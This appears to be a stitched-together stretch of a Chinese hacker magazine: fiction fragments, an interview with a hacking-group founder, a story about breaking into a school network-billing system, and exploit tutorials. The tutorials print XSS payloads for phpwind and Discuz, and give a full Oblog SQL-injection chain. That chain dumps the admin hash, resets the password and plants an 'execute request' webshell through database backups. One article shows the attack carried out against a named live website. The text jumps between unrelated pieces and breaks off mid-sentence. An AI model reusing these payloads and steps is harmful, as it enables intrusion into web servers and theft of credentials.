“韦叔！刚有人拿了张纸条要我交给你的！但是我看那人不像好人！你说我是把纸条不给你好呢，还是不给你好呢？”

“我大嘴巴子抽你丫的！看郭德纲相声看多了还是怎么着？”

“不是，呵。我是怕把纸条给你吧，你会出个什么三长两短的！”

“那你就把纸条丢掉呗！”

“但是我又怕耽误你事儿！”

“那你就给我呗！”

“唉哟！我刚不是说了吗！要是我把纸条给你了，你出了个什么三长两短的，怎么办？”

“那你就去死呗！”

“哈！给你算了！”说着把纸条丢给韦叔。韦叔接过纸条一看，手里拿的笔就放下来了！站在一边的他看了看手表，8 点 40 了！

“韦叔，你还有 20 分钟！”

“你帮我看一会儿店，我一会儿回来！”韦叔连账都没算完就走了。

“哦！”

他不知道为什么韦叔的脸色会突然紧张起来。走得这么匆忙。他也没功夫想了，因为店里人很多。然而，快十点了。客人都走得差不多了。韦叔还是没回来，他给韦叔打了个电话。

“喂！韦叔！你咋还不回来啊？等得黄花菜都凉了！”他焦急地问着。

“呵。这样吧，你在店里拿 2 万块钱出来，到东山街老虎沟 42 号楼东单第一家找我！店里门锁好了！”韦叔那边传来很多人说笑的声音。

“哦！我知道了！”电话挂了！

他心里想：要钱干嘛，难道韦叔要包## 校盟校长 Redbin

小迷

他在 2001 年接触网络，在 2004 年和朋友创办校园黑客联盟，经过不懈的努力，让校盟成为黑客圈里的一个知名站点。他对于黑客技术的热爱和崇尚共享的精神，影响着校园黑客联盟这个团队。他就是 redbin，本次采访让小迷带领大家了解一个全新的 redbin^^

NoHack: Hello! redbin，能否先向大家简单地介绍一下自己?

redbin: hello，大家好，我是 redbin，出生于河南，01 年接触网络，04 年 8 月创建了校园黑客联盟。我的生活和平常人没有什么太多区别，从读书到工作，从自己 QQ 被盗开始接触这个圈子(很多朋友貌似都是如此接触这个圈子)。当初的网络 ID 也很简单，一直叫 bin，后来注册一些论坛不允许 3 个字母，所以加了个 red! 含义就是红宾，也是我本人的名字!

NoHack: 当初创建校园黑客联盟是出于什么目的? 为什么取名校园黑客联盟? 难道出来的都是学生?

redbin: 嗯，当时刚中专毕业，认识了很多朋友，基本都是正在上学读书的朋友，一起研究技术。剑心是我最铁的哥们，我俩 01 年认识，一起学习技术，呵呵，现在他的技术比我好多了。虽然中专学的专业与我爱好的计算机一点也不对口，不过我还是很坚持地自己自学计算机! 直到后来中专毕业，然后自己开了这个站，并找了一些朋友来做维护与交流!

NoHack: 校园黑客联盟从 04 年的初建一直走到现在，在这期间肯定遇到过很多困难，其中遇到最困难的事情是什么?

redbin: 最困难的就是空间问题吧! 现在很多 IDC 的空间都很不稳定，况且又是黑客类网站，所以更容易受到其他人的攻击，更多人是想黑掉网站来出名吧。有两三次都是因为空间商跑路，导致服务器数据库一点也没有备份下来。从中专到大学，我没有自己的电脑，全靠在网吧上网，所以对于数据备份做得没有那么好。网站空间断断续续地关闭，几天以后才重新开放，做站最大的困难也就在于此了!

NoHack: 确实也是，差不多每个人都想黑掉一个著名站点来让自己出名。校园黑客联盟从成立到现在，应该有很多核心人物来帮助你、辅助你，能否简单地介绍下他们?

redbin: 太多啦……像剑心、响亮奇、Alway、NICK、海潮、musiyxy、恒、雨狂、qianzhicha、清风、大笨狗、JF、lulu、青蛇、小鬼头等等，太多太多，有近百个吧! 一直都是特别支持、特别卖力的核心与成员，一直以来都有他们的鼓舞，不然在几次数

据丢失的时候真的不想继续开下去，但是一直都是他们默默地支持着我才一直开着！真的很谢谢他们，有些朋友没有说出名字，但是我一直都把他们记在心中！他们与校园黑客联盟共同走过了风风雨雨，真的很不容易！很多朋友基本都已经大学毕业参加工作了，也有一部分仍旧还是学校中的新人！他们都很让我感动，让我感觉一直都有人在支持，我就会觉得无论如何我都会开下去！即使我不在，我都会开着，永远不会关掉这个组织，因为他是新生代的希望，很多学生的梦想！

NoHack：看来你对校园黑客联盟投入了很高的精力和心血，但是前段时间，网上传闻，你要结婚了，并且已经把校园黑客联盟的管理权交由别人负责！在这期间，校园黑客联盟好像还遭受过攻击，并且传闻要关闭？是真有此事还是……

redbin：嗯，我刚结婚一个月，因为一直忙，没有太多时间太多精力放在上面，所以让下面的其他管理员做重点管理。但是关闭是不会关闭的，他会永远都开放下去的！PW 前段的密码取回暴出漏洞后受到过一次攻击，被人删除了两个版块的数据，听到消息我就赶紧回去处理了！我的心血，怎么可能会看着它毁去！虽然现在不像以前那么出来跟大家交流做事了，但是在幕后我还是要投入不少精力，对于网站的日常维护，服务器安全等都还是会去注意的！当然，为了让更多的人学习，我会多安排几个管理员让他们做一些更新与维护，现在从外部看起来会感觉我消失了似的，不过最终管理还是我号召着下层，约束着他们！

NoHack：当初你创建校园黑客联盟，肯定想过校园黑客联盟以后的发展方向是什么，有没有什么计划，或者说校园黑客联盟的管理层很早以前就已经拟订了校园黑客联盟的发展方向？

redbin：最初创建校园黑客联盟的目的是为了宣传一种免费共享的精神。04 年的时候，黑客组织没有像现在这么多，有一些还是收费性网站，而我当时作为学生，知道学生一族都是穷人啊，我自己读中专的时候，曾经 N 次逃学上网，上到把钱花完，没钱吃饭

的程度，每天啃一个烧饼了事！正因为自己经历过，才会想起自己能做的事情做起来，建设一个共享性质的网站与大家交流经验，随后就组织小组做一些教程，写一些工具免费发布，提供给菜鸟朋友学习！联盟的发展方向会一直持续在免费共享的道路上！

NoHack：校园黑客联盟好像更换过域名，那么现在在校园黑客联盟的域名是什么？

redbin：以前是 www.schoolhacker.com，意义虽好，但是很多朋友反映说名字过长，输入不方便，于是我购买了一个短的 www.vip8.org，这个域名的含义是让人人都能体验到做免费的 VIP 会员！

NoHack：在采访中我们提到了共享这个词汇，但是现在的这个领域并非是这样，而且产生了黑色产业，你对这种现象有什么看法？这是偶然还是必然的？又或者说这是遵循了发展的规律？

redbin：现在国内的组织比较混乱吧！黑色产业链是因为有一部分人看中黑客技术这块硕土，一些人，以金钱为诱惑引导一些人做一些不正当的事情吧！这种现象感觉不是偶然，主要在于国家法律还不够健全吧！有利自然有人为之冒险吧！

NoHack：这好像是有违黑客精神吧。redbin，你个人理解的黑客精神是什么？

redbin：个人理解的黑客精神就是自由，共享！不做恶意的破坏！

NoHack：在采访的最后，能够公布一下你的联系方式吗？

redbin：大家可以到校园黑客联盟的论坛来找我即可，网站是 www.vip8.org，我的 ID 是 redbin，E-mail 是 redbin@vip.163.com。

后记：对 redbin 的采访可谓一波三折，是经过了好几次的采访才综合在一起而编辑出来的。redbin 给人的感觉很亲和，并没有什么架子，最让我心灵震撼的是 redbin 的共享精神！从前是，现在是，以后也是……

断头台由两根杆组成，这两根杆在顶端被一个横着的杆垂直连接着。一根绳子连在厚重的刀片上，锋利的刃正好垂直地插进滑槽内部以便它可以被提升或降落。在实施过程中，先把刀片提升，罪犯把他的头放在断头台的底部，然后刀片呈自由落体的速度下降，在当时很多人认为在断头台把人的头切下来是仁慈的，因为死得快。

# 断头台
morephze

## 引

学校生活总是简单而充满乐趣的，特别是对于一个学医的爷们来说。

我一直觉得，与其拿着大把的时间浪费在一次又一次的重复实验上，不如花点心思，为毕业后的生存做点打算；再不济，也不能让这枯燥的学习过程占据自己所有的时间。

诱惑是种毒药，享受美味的同时也要接受它所隐含的危险。对男人来说，最致命的诱惑有三种：权力、金钱、美女。我相信，只要是个心理生理等正常的男人，就无法拒绝这些诱惑。

我承认我很正常，也承认珠儿对我产生了足够大的诱惑。

珠儿是个丰腴的女孩，却给人瘦小的错觉，我想这大概是因为局部发育过于出人意料的原因。珠儿也很聪明，这一点使她在众人中脱颖而出，很多人都说是鲜花插在了牛粪上。这点我同意，不过为什么要插在牛粪上，连我也不明白所以。

## 三

眼前已经有一件很让人头疼的事情了，我需要买一种东西，它不是必需品，却对我非常重要；它并不昂贵，但是积少成多还是让我有些吃不消；它可以不用，但是却不能保证我还能这么安稳地在学校享受着温暖的阳光和周围嫉妒的目光。

我对珠儿的父母并不了解，她不曾说过，我也不曾问。男人适当的表现一点大度，对整件事情的操控会有好处。珠儿一向聪明，这从她连续两年拿到学校的奖学金就可以看出。我给她适当的空间，她也自然会人前人后的给我带来面子。

所以说，我再穷也不能亏了买套子的钱，虽然可以趁着安全期爽几天，可心惊

胆颤的过程并不是我需要的。毕业之后我会成为医生，自然了解妊娠反应对一个少女来说，会在心理和生理上造成多大的影响。堕胎不是不可以，不过珠儿肯定会对我有不满，因此这种吃力不讨好的事情我是不会干的。

除了家里每月给的生活费，我是颗粒无收，既然开源无路，只能节流。所以我把目光盯向了宿舍里那台玩 QQ 游戏的老爷机。

当然不是省那点电费。学校的电费还有折扣，一个月也用不了三块。

## 三十

要省就要想办法把网费省下来。月供 5G 的流量 30 块，这价格不能说贵，但是对于学生来说还是太残酷了一点，很多兄弟因此而不敢在线看连续剧。校方虽然就此遭受了不少怨言，不过从实际效果来看，这对学生有一个正常的校内生活有着良好的牵制作用。

学校的网络计费软件是基于一套 Passport 的系统，这个账号包括了就餐、洗澡、图书馆、游泳池等等所有我们能够想

到的校方能够提供的东西。那张蓝紫色的 IC 卡也成了一种身份的象征。

“看，这就是××医科大学的啊。”

“是那个××医科大学？”

“就是那个××啦。”

虽然学府的名气只能代表这所学校过去所成就的辉煌，它对个人能力的提高并没有本质的联系。但人就是这么肤浅，这么肤浅地不理解这个简单的道理，一而再再而三地对这种名牌趋之若鹜。

登录学校的网站，我开始漫无目的地撒网捞鱼，希望能发现点小漏洞，再搞点脚本入侵、数据库修改什么的。可惜学校的主页上实在没什么东西，我无奈之下把目光转向了内网的“网络计费工作平台”。

如果可能，我是不想从这里入手的，因为那个叫顿儿的男人。

顿儿曾经追求过珠儿，可惜珠儿对他不感兴趣。但是从一个男人的角度来看，顿儿很高，会打篮球，声音还温柔，而且老爹有辆车，这些都是吸引女人的资本。不过他还是失败了，珠儿根本就不曾给他机会。

这也是让我最开心的一件事，不过每次看到顿儿总是得装出一副高深莫测的样子；这让我有点难受。不能给情敌好脸色看，这是亘古不变的真理，只要稍微露点怯意，他就会以为你不过是侥幸才取得了胜利。就算真是如此，也绝不可让他看出来。

顿儿对网络上那点破事儿也是多少懂一点的，入侵与反入侵、追踪与反追踪也是了解的。我不敢保证搞定了网费能不能不被他发现。

## 三千

不过很快，性生活的诱惑就冲昏了我的头脑。尽管系统的壁垒是那样的顽固，但并不表示它牢不可破。在浪费了两个小时之后，我顺利地进入了系统后台。

进了后台我才发现了学校的无耻，所有的用户密码竟然是明文保存在数据库里的。也不知道他们到底是自信还是想偷窥，我第一时间把自己的密码换成了 123456789。开什么玩笑，要是我的常用密码被那个孙子发现了，那还不损失惨重？

转了一圈没找到增加流量的地方，不过找到几组还有剩余流量的账号，也还算没白来。

以后的日子安稳地过了下来，我比较小心，每个账号用不了多少，所以并没有被发现。对于所谓的黑客技术，我并不是太热衷，它只是一种取得我所期望结果的手段而已。它的缺陷也是显而易见的，只是入侵的时候我并没有想到。

那天顿儿的班级和我们班一起做实验，下课的时候他叫住我，递给我一支红塔山。我摆摆手，掏出自己的 520，道：“太冲，抽不惯。”他也不推辞，撇过脸自顾自

的说了起来“小 More，你是不是盗人家上网账号了？”

我说这怎么可能？他带着揶揄的笑着：“系统有你那个 MAC 地址的登录记录，这个月你没交费，不过那 MAC 地址倒是上线了几回。”

……真他妈背！“又没啥大事，就随便用用，也就几毛钱的事儿，你准备怎么着？难不成要我把这几毛钱都吐出来？”

“那倒不用，反正已经是过去的事了，钱是小事，谈那个伤感情。”顿儿轻描淡写地说道，“不过这事儿挺恶劣，上面准备把它当典型。你说……”

“你说我也跟你一样，就是个给学校卖命的劳力，就是想挡，我也挡不住不是？”他平和地说着。

“哦，这样啊，那你就公事公办好了。”无事献殷勤，非奸即盗，我不相信他没点好处就来告诉我这么讨打的事情。

“话不能这么说，什么都有个商量不是？”他有些微微变色，“你给老师表示一下，我估计这事也就能平下来。”

这道理我懂，不过要有钱平这事，我还至于省那三十块么？再就是，这事凭什么轮到你来指手画脚？只是这话我没说，咽在肚子里。

## 后事

要钱，我没有，要命，他们也耍不起。我在考虑学校会给我什么样的处分；不论是按照危害还是按照性质来处分，这都不是算太过严重的事情。但什么事情都怕抓典型，如果是为了杀鸡给猴看，我可能会记大过、留校察看，劝退。

这就是叫一失足成千古恨。以前做过再多的好事也顶不住干过的一件坏事。特别是在大家面前光鲜的一个人，做了一件小老百姓很容易就犯的错误，在他身上那就是罪大恶极，不可饶恕。这就好比那些当官的，廉政几十年，无意中堕落一回，那就是典型。

这不是说那事儿一瞬间就变得复杂了，而是有些人太闲了，有些人太想闹腾点事儿了。我觉得顿儿实在是不安好心，我不觉得顿儿是缺钱了想从我这里捞点，他大概只是想看到我要么破财，要么遭灾。

坐以待毙是不行的，我觉得自己还有逆转形势的能力。我准备把这事和导师商量一下。

只是没想到，导师倒是先来找我了。他有些着急：“小 More 你都干了啥好事，最近风声正紧，这回可是冲到枪口上了。”

我笑笑，给导师送上一根芙蓉王，“男舅，看在您外甥女的面子上，别对学生这么残忍好么？怎么说，您也是系主任，怎么说，我也是您得意门生。办法……总会有的吧？”

来了就好办，既然是他主动找的我，这就说明问题并不是顿儿所说的那么复杂。况且那部舅舅，我看他听着也很是受用。养个学生不比养条狗狗，所以我出的成绩，基本都要算他这导师的一份，不管怎么样，也都是他“教导有方”，再说我和珠儿的关系，我相信善良的导师不会见死不救。

他喜欢有所准备的人，从很多小事中我发现了他这个习惯，而找出他和珠儿之间的关系，不过是我无意中通过谈话分析出来的结果。

导师的效率很高，整个事情以很小的代价解决了：不公开批评，没有任何处罚措施，并且设置我的上网账号在校期间免费，要说唯一的一点瑕疵，那就是今年断了我入党的念头。我想导师不理解我入党系统的本意，他并不知道我是为了三十块钱才铤而走险的。每个人都有价值，只要越过底线，就都会铤而走险。我想这原因大概还是我太穷了吧。

今年入党的名额貌似要给顿儿了，我喜欢在事后分析一下，这可以防治以后犯同样的错误，也能够更快地了解一些隐藏的真相。

这种事情只能发生在我身上，发生在任何别的儿身上，都绝对不会有这种效果，无论是处罚力度还是其他。

## 顿儿

我养了只小猫，我叫他顿儿，而且是当着顿儿的面叫它顿儿。他歪了歪嘴，没说什么，还冲着我优雅地微笑。

只是我的心在滴血，这只顿儿花了我三十块，虽然珠儿看到它很开心，但是无疑，下个月的性生活是无法美满了。果真人生不如意者，十之八九！

顿儿告诉我，他早一年获得这个入党名额对他来说很重要，对我这样没什么深厚背景的人来说，入党早晚也就是多交一年党费。但顿儿不同，他有他爹，他爹能给他一个很好的未来，只是这前提是他必须得入党，而且在 2011 年，党龄要凑够 5 年。

他还说，珠儿这种女人虽好，但不表示以后就没有机会遇到，我不恨你。

我笑着对他说，你还真禽兽。

他说谢谢。

## 后记：

断头台是一件亵爽的兵器，操作简单，效果明显。不论是对操作者还是受刑者来说，都是一种幸福：一是生杀予夺随心所欲，一是安乐死而没有一点受刑的痛苦。但是我要说的是，我这种人是万中挑一的，所以你不要指望每次入侵完了都能跟我一样全身而退，我相信，更多的时候这锋利的铡刀会把你的切面切得镜如雪。

编辑点评：初读这篇文章，我感到了一些现实中一些很沉重的东西，透过文章，我们可以感觉到作者描写意境中的颓废和无奈。但如果做错了事有人能逃过惩罚，那他是否能逃过自己内心的判决。当然，如果不作恶，我们又何惧断头台。

# phpwind、discuz 的跨站之旅

> 小天呢喃：

本月文章不多，篇篇精彩，有 DZ!，也有 PW，自然少不了魔力老弟；另外 ASP 的 Oblog 这次也难逃劫难，被人攻陷下来，何等悲壮呀~另外，眼看着就到夏天了，天气干燥，容易上火，尤其是熬夜者更甚，小编便是受害者之一，口腔溃疡的苦没有受过的觉得是体会不到的，害得我每天都要喝王老吉，贵呀~熬夜真不值得，各位小黑。熬夜注意身体呀~

- 从本文你可以学到：
1、跨站语句的构造
2、BBCode 字体处的跨站漏洞

今日闲暇无事，下了套 phpwind 的论坛程序来看看，无意中发现了一个跨站漏洞，本着共享精神，决定写出来和大家分享，这次的漏洞文件是 require 下的 bbscode.php，仔细看了下代码，漏洞相关的代码就出现在：

```php
$searcharray = array(
    "/\[font=([^\[\+?)\](.+?)\[\/font\]/is",
    "/\[color=([#0-9a-z]{1,10})\](.+?)\[\/color\]/is",
    "/\[backcolor=([#0-9a-z]{1,10})\](.+?)\[\/backcolor\]/is",
    "/\[email=([^\s]+)\]([^\s]+)\[\/email\]/is",
    "/\[email\]([^\s]+)\[\/email\]/is",
    "/\[size=(\d+)\](.+?)\[\/size\]/eis",
    "/\[align=(left|center|right|justify)\](.+?)\[\/align\]/is",
    "/\[glow=(\d+)\,([0-9a-zA-Z]+?)\,(\d+)\](.+?)\[\/glow\]/is"
);
$replacearray = array(
    "<font face=\"\\1\">\\2</font>",
    "<font color=\"\\1\">\\2</font>",
    "<font style=\"background-color:\\1\">\\2</font>",
    "<a href=\"mailto:\\1\">\\2</a>",
    "<a href=\"mailto:\\1\">\\1</a>",
    "size('\\1', '\\2', $allow[size]!)",
    "<div align=\"\\1\">\\2</div>",
    "<div style=\"width:1px;filter:glow(color=\\2,strength=\\3);\">\\4</div>"
);
$message=preg_replace($searcharray,$replacearray,$message);


```
font 里 `[^\[\+?)\]` 仅仅过滤了 `[`，去 phpwind 官方测试下吧。先注册了一个 ID：lib3rt3，然后点“新帖”，构造跨站语句 `[font=expression(alert(document.cookie))]lib3rt3[/font]`，如图 1。

然后提交，就会出现一个提示框，如图 2。点击确定，如图 3 所示。

随后我又去了 DZ 的论坛看了下，发现 DZ 和 PW 的跨站是一样的。我看的是 DZ5.5 的 UTF-8 版，漏洞文件是 discuzcode.func.php，相关代码如下：

```php
$discuizcodes['searcharray']['bbcode_regexp'] = array(
```

```php
"/\[float=([^\[\<]+?)\]/i"
);
```

```php
$discuizcodes['replacearray']['bbcode_str'] = array(
    "<br style=\"clear: both\"><span style=\"float: \\1;\">"
);
...
@$message = str_replace($discuizcodes['searcharray']['bbcode_str'], $discuizcodes['replacearray']['bbcode_str'], preg_replace(
    ($parsetype != 1 && $allowbbcode == 2 && $GLOBALS['_DCACHE']['bbcodes'] ? array_merge($discuizcodes['searcharray']['bbcode_regexp'], $GLOBALS['_DCACHE']['bbcodes']['searcharray']) : $discuizcodes['searcharray']['bbcode_regexp']),
    ($parsetype != 1 && $allowbbcode == 2 && $GLOBALS['_DCACHE']['bbcodes'] ? array_merge($discuizcodes['replacearray']['bbcode_regexp'], $GLOBALS['_DCACHE']['bbcodes']['replacearray']) : $discuizcodes['replacearray']['bbcode_regexp']),
    $message));


```
利用方法和 PW 一样，构造如下语句为 `[float=expression(alert(document.cookie))]`，提交后，如图 4 所示。

点击确定后，如图 5、图 6，也成功了！~HOHO! ~~

# DZ 的解决方法：

```php
"/\[float=([^\[\<;:\(\)\=\&\#\.\+\*\/\+?)\]/i" 修改成 "/\[float=([^\[\<;:\(\)\=\&\#\.\+\*\/\+?)\]/i" 即可，虽然说只是一个简单的跨站漏洞，但是如果能够擅加利用的话我想对渗透会有很大帮助的。

后记：本人分析的代码是 pwpwind5.3 免费版，官方的版本也测试成功，本文投稿时官方尚未给出补丁，请大家不要搞破坏，最后感谢 LoveAngel 帮忙把这个稿子写出来，并且帮我测试。

举了两个例子，小编相信，其他有使用 BBCode 的程序肯定也存在着类似的问题，希望各大站长注意打补丁。

## OBLOG, 将入侵进行到底 (原理篇)

风尘浪子 [E.S.T]

- 从本文你可以学到：
1、Oblog 的漏洞原理分析
2、拿 Webshell 的原理分析

Oblog 是一套经过完善设计的多用户博客建站程序，在国内使用非常广泛，Oblog 分为免费版本和商业版本，目前官方提供下载的最新本是 4.0，测试版本是 4.5。一直以来，网络安全爱好者一直没有放弃对 Oblog 漏洞的研究，近几天 Oblog 又曝出了通杀漏洞，无论是 access 版还是 sql 版都不能幸免，4.0 版以及测试版本 4.5 都有此漏洞。黑客可以轻松拿到管理员的后台加密密码，破解之后可以进后台拿 webshell，直接关系到整个网站甚至服务器的安全，官方 4 月 23 号发布了漏洞补丁(下载地址:http://down.oblog.cn/Patch/oblog4/oblog4_patch20070423.rar)，注意官方下载的原程序包是不含此补丁的。

还是老规矩，为了让大家更好地理解漏洞原理，还是一起来看看相关代码，漏洞出在 js.asp 文件中。

```text
------------------------- 关键代码 -------------------------
<!--#include file="conn.asp"-->
<!--#include file="inc/class_sys.asp"-->
<%
Dim oblog
set oblog=new class_sys
oblog.autoupdate=False
oblog.start
dim js_blogurl,n
js_blogurl=Trim(oblog.CacheConfig(3))
n=Clnt(Request("n"))
if n=0 then n=1
select case Clnt(Request("j"))
case 1
call tongji()
case 2
call topuser()
case 3
call adduser()
case 4
call listclass()
case 5
call showusertype()
case 6
call listbestblog()
case 7
```

```text
call showlogin()
case 8
call showplace()
case 9
call showphoto()
case 10
call showblogstars()
Case 11
Call show_hotblog()
Case 12
Call show_teams()
Case 13
Call show_posts()
Case 14
Call show_hottag()
case 0
call showlog()
end select
******************* 省略部分代码 *******************
Sub show_posts()
Dim teamid,postnum,l,u,t
teamid=Request("tid")
postnum=n
l=Clnt(Request("l"))
u=Clnt(Request("u"))
t=Clnt(Request("t"))
Dim rs,sql,sRet,sAddon
Sql="select Top " & postnum & " teamid,postid,topic,
addtime,author,userid From oblog_teampost Where idepth=0 and
isdel=0 "
If teamid<>"" And teamid<>"0" Then
teamid=Replace(teamid, "|", ",") ' 将|替换成逗号,除此之外,没有任何过滤
Sql=Sql & " And teamid In (" & teamid & ") " 'sql语句
和 .And teamid In (" & teamid & ") 这句接起来
End If
Sql=Sql & " Order by postid Desc" ' 又把 sql 语句接上一段
Set rs=oblog.Execute(Sql) ' 执行 sql

------------------------- 关键代码 -------------------------
```

大家可以看到，teamid 这个变量是 Request("tid") 获得的，除了处理了一下 "|" 之外没有经过任何的过滤，直接放到 sql 语句中进行查询，那么我们就可以构造语句进行注射了。因为 teamid In (" & teamid & ") 这一处比较特殊一点，我们需要闭合前面和后面的括号，所以只能手工注射了，工具没有这么智能化，呵呵！另外直接进入 js.asp 页要调用 show_posts() 过程必须符合上面的参数 n=1,j=13。

我在官方下载最新版本进行本地测试，我们先提交 http://127.0.0.1:88/js.asp?n=1&j=13&tid=1) and 1=1 and (1=1，页面正常显示，这里解释给新手一下，我们这样提交，最终 SQL 语句是这样的：

```sql
select Top 1 teamid,postid,topic,addtime,author,userid From oblog_teampost Where idepth=0 and isdel=0 And teamid In (1) and 1=1 and (1=1) Order by postid Desc
```

这里关键是匹配括号！如图 1。


图 1 构造语句

提交 http://127.0.0.1:88/js.asp?n=1&j=13&tid=1) and 1=2 and (1=1 发现有点郁闷了，和 1=1 的时候一样，没有任何差别，这下如果一位一位地猜解 md5 密码就麻烦了，后面我发现可以直接用 UNION 暴账号密码，下面就来试试，先看看他的 SQL 语句有几个字段，一共 SELECT 了 teamid、postid、topic、addtime、author、userid 等 6 个，那么提交：

```text
http://127.0.0.1:88/oblog4/js.asp?n=1&j=13&tid=1)%20and%201=2%20union%20select%201,2,3,4,5,6%20from%20oblog_admin%20where%20id=1%20and%20(1=1
```

打开源码文件就能发现：

```javascript
document.write('<ul><li><a href="group.asp?gid=1&pid=2" target="_blank"></a></li></ul>');
```

gid=1 跟 pid=2 里的 1、2 就是了，直接替换里面的 1、2 为 username、password，语句为：

```text
http://127.0.0.1:88/oblog4/js.asp?n=1&j=13&tid=1)%20and%201=2%20union%20select%20username,password,3,4,5,6%20from%20oblog_admin%20where%20id=1%20and%20(1=1
```

查看源码文件，gid 后面的就是管理员账号，而 pid 后面的就是管理员的 MD5 密码了，如图 2。


图 2 得到加密后的密码

那么如果那么麻烦了，哈哈，我们可以直接 update 改掉管理员的密码，还可以直接差异备份数据库得到 webshell，直接 update 改掉管理员密码的语句是：

```text
http://127.0.0.1:88/js.asp?n=1&j=13&tid=1);update oblog_admin set password='469e80d32c0559f8' where id=1--
```

这里闭合前面的括号之后，后面用 "--" 注释掉括号后面的，至于差异备份得到 webshell 呢，需要知道 web 绝对路径，最好的办法是改掉管理员密码之后进后台查看服务器组件配置，可以看到 web 路径。接着通过 4 步备份一个 webshell：

```sql
js.asp?n=1&i=13&tid=1);declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=0x717131353635343436333322E62616B backup database @a to disk=@s--
js.asp?n=1&i=13&tid=1);create table [dbo].[xiaolu] ([cmd] [p_w_picpath]);--
js.asp?n=1&i=13&tid=1);insert into xiaolu(cmd) values (0x3C25657865637574652872657175657374282261222929253E)--
js.asp?n=1&i=13&tid=1);declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=0x443A5C7275636F6C5F73716C5C61646D696E5C31353635343436333322E617370 backup database @a to disk=@s WITH DIFFERENTIAL,FORMAT--
```

这里 `0x443A5C7275636F6C5F73716C5C61646D696E5C31353635343436333322E617370` 是 16 进制的 `D:\rucol_sql\admin\156544633.asp`，即 web 绝对路径，`0x3C25657865637574652872657175657374282261222929253E` 是 16 进制的 `<%execute (request("a"))%>`。以上代码由于我这里没有 sql 的商业版本，没有测试，理论上是没有问题的！

接上面的说，access 版本我们 union select 出来了管理员的 md5 密码，接着怎么办呢？当然是破解 MD5 了，我们可以使用 md5cracker 进行破解，也可以去一些 md5 查询的网站查询，运气好的话很轻松地就可以得到明文密码，这里是体力活，我也帮不了你，必要的时候可以结合一些社会工程学之类的，哈哈！

好了，假设你已经进入了后台，怎么拿 webshell？讲了半天，总得整点关键点吧，拿 webshell 很重要了，到网上去搜索 oblog4 后台拿 webshell 的办法，千篇一律的是讲后台添加 gif|jpg|png|bmp|rar|zip|swf|doc|aaaspspaspsp 的上传后缀，估计这种办法又是针对很古老的版本，如今的 oblog，进后台根本找不到设置上传文件类型的地方，oblog 也做得越来越安全了，我们为它庆幸吧！

再看备份数据库和恢复数据库，可是我仔细看了一下 admin_database.asp，里面当前数据库的路径都是从包含文件 conn.asp 里面获得的，我们根本没有办法控制它，再看看上传，oblog 有一个用户目录的设置，记得以前有人说 win2003 环境下结合上传可以拿 webshell，假设我们设置一个用户目录是 aaa.asp 并且设置成默认目录，我们再去前台申请一个用户，比如 yunyun，那么 yunyun 这个用户的博客地址就是 http://127.0.0.1:88/oblog4/aaa.asp/yunyun/index.html，我们把一个 asp 木马后缀改成 jpg，jpg 格式可以正常上传，如果我们把这个 jpg 传到了 aaa.asp 目录或者其子目录里面，那么这个 jpg 格式的木马会被执行，这一点和微软的 bug 有关，经过研究发现，无论我们在后台上传什么东西，都是传到了 UPLOADFiles 这个目录，UPLOADFiles 这个目录是在 aaa.asp 之外的目录，和 aaa.asp 这个目录一毛钱的关系都没有，记得老版本的 oblog 没有这么聪明，呵呵，时代变了！

最后，我终于找到了一个在 win2003 环境下拿 webshell 的办法，刚好我本地是 2003，下面看如何拿 webshell。

## 第一步：用管理员账号进入后台，点击用户目录管理，添加一个用户目录是 aaa.asp 并且设置成默认目录。

## 第二步：点击“模板管理”下面的用户模板管理，修改默认模板


(文本方式)，就是第一个模板了，修改主模板，将一句话木马 `<%execute request("a")%>` 插入代码的最后面，保存，如图 3。

## 第三步：登录前台注册一个新用户，访问自己的博

图 3 插入代码

# 第四步：上传大马，控制服务器，如图 5、如图 6

怎么样，是不是很简单，2003 的服务器我们就这样拿到 webshell 了，至于 2000 的服务器到目前为止我还没有想到一个好的办法，希望比较渺茫，但是

# oblog4.0&4.5 漏洞利用并拿下 webshell（实战篇）

rabbitsafe

+ 从本文你可以学到：
1、oblog 漏洞实战
2、针对不同版本的拿 Webshell 方法

## 一、原理篇

漏洞产生的原因及其分析在《OBLOG，将入侵进行到底（原理篇）》这篇文章中已经讲述得非常明白了，我也就不罗嗦了，我们直接进入实战。

## 二、实战演练

打开 http://www.google.com/，搜索“Copyright by oblog.cn 2005~2006”，这个关键字是我随便找的，大家可以自己找更好的关键字，马上确定目标 http://www.dot163.cn/，提交：

```
http://www.dot163.cn/js.asp?n=1&j=i3&tid=1)%20and%20201=2%20union%20select%20username,password,3,4,5,6%20from%20oblog_admin%20where%20id=(1
```

返回结果，如图 1。去网站 http://www.xmd5.com/ 查找下，明文密码是 19850203，今天运气不错，呵呵。打开后台登录地址 http://www.dot163.cn/admin/admin_login.asp，输入用户名和密码，成功进入后台，如图 2。

下面就开始后台拿 webshell 了，针对两个不同的版本，有不同的方法。

### 1、oblog4.0&4.5 两个版本通用方法

首先，打开“用户等级及设置”栏目，进入“管理用户等级”，“新手入门”进行修改，在“上传文件类型”里，加上“mdb”，然后点保存，选择“全部用户管理”，随便进入某个用户的后台，发布日志、上传文件，把我事先准备好的数据库文件上传上去。这个数据库文件是我对 oblog4.0 数据库进行修改所得来的，因为一般服务器对上传文件大小都有所限制，所以，我只留了 oblog_admin 表，并且把 lastloginip 字段内容变成 `<%execute request("a")%>` 一句话木马，还有一点特别注意的就是，oblog_admin 表里的 password 内容，一定要和网站管理员的密码一致，否则，等下备份数据库的时候，系统会要求重新登录。但是，数据库只剩下一个表了，登录会报错，网站也没办法恢复了，先成功上传数据库文件，如图 3。

把文件地址复制下来，然后，进入后台“数据库管理”栏目“恢复数据库”，如图 4。

成功恢复数据，然后，选择“备份数据库”，修改“备份名称”，避免覆盖原来备份好的数据库，点“开始备份”，备份成功，如图 5。

然后，上传大马上去，成功拿到 webshell，如图 6。

还有种方法，但是受环境的影响，需要服务器支持 php 或者 jsp 脚本，在上传文件选项的地方加上“|php|jsp”，用户就可以在前台上传 php、jsp 脚本了，但前提是服务器必须要支持 php 或 jsp 脚本。

### 2、oblog4.5 的方法

这种拿 webshell 的方法也和环境有关，就是操作系统一定要是 Windows 2003 Server 的，现在网上大部分服务器操作系统都是 Windows 2003 Server，所以，成功率还是比较高的。

在 Oblog4.5 的后台有“系统设置”“网站信息配置”“系统参数”“上传目录”栏目，可以改变上传文件的目录，我们把上传文件的目录改成 1.asp，然后，把准备好的小马后缀名改为“.jpg”，上传成功，如图 7。

